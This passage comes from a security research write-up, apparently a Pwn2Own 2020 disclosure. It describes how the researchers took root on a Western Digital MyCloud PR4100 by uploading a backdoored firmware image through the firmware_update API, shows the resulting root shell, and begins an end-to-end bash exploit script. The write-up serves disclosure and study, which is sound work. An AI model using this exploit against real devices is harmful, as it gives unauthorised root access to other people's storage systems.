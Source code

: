 This means that any firmware upgrade file that is received and passes the integrity checks will be flashed onto the device. 

# Exploitation

As shown in the previous sections, we can access the authenticated REST API endpoints with the default user *nobody* and use the *firmware_update* API endpoint to upload a firmware file to the device. As long as this file passes the integrity checks, it will be flashed onto the device.

To create a valid firmware file we can use the PR4100 GPL code. This code contains tools to build firmware images that are accepted by the device, and saved us a lot of time of reverse engineering on how to build a valid firmware file.

There are multiple ways to achieve code execution since we fully control the firmware file that is flashed onto the device. We chose to replace the UPNP daemon *upnp_nas_device*, which is called at every boot, with a shell script that spawns an unauthenticated telnet root shell on port 4444.

The firmware file is then uploaded to the device and after a few minutes of upgrading and rebooting, we can connect to port 4444 on the device and get our root shell:

```
BusyBox v1.20.2 (2019-07-04 10:39:50 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

root@MyCloudPR4100 / # id
uid=0(root) gid=0(root)
root@MyCloudPR4100 / # uname -a
Linux MyCloudPR4100 4.1.13 #1 SMP Mon Jun 29 00:11:44 PDT 2020 Build-git249a60f x86_64 GNU/Linux
root@MyCloudPR4100 / #
```

By flashing the stock firmware we can revert our changes and "unbackdoor" the device.

## Full exploit

The full end-to-end exploit is shown below. This exploit builds the backdoored firmware image, uploads it to the device and then connects to the root reverse shell. The exploit takes a minimum of 5 minutes to run, depending on the network and CPU speed of the computer running the exploit. It is recommended to run the exploit in a Kali, Debian or Ubuntu machine that can run 32 bit binaries.

In the Pwn2Own competition, our intention was to use a shortened version that uploaded a pre-built backdoored firmware image instead. This shortened version consists of steps 6 and 7 of the exploit below, and takes a maximum of 3 minutes and 30 seconds to run in order to fit the competition's time limits (5 minutes per attempt).

```shell
#!/bin/bash

echo "> weekend_destroyer: exploit for Western Digital MyCloud PR4100 for Pwn2Own Tokyo 2020 by"
echo "  Pedro Ribeiro (@pedrib1337 | pedrib@gmail.com)"
echo "  Radek Domanski (@RabbitPro | radek.domanski@gmail.com)"
echo ""

if [ $# -eq 0 ]; then
    echo "> Usage: ./weekend_destroyer.sh <RHOST>"
    exit 1
fi

# replace these vars for new firmware versions, the rest of the code should work as-is
FW_VERSION="2.40.155"
FW_GPL="WDMyCloud_PR4100_GPL_v2.40.155_20200713"

RHOST="$1"
echo "> Attacking $RHOST"

echo "> 1: Downloading GPL code"
```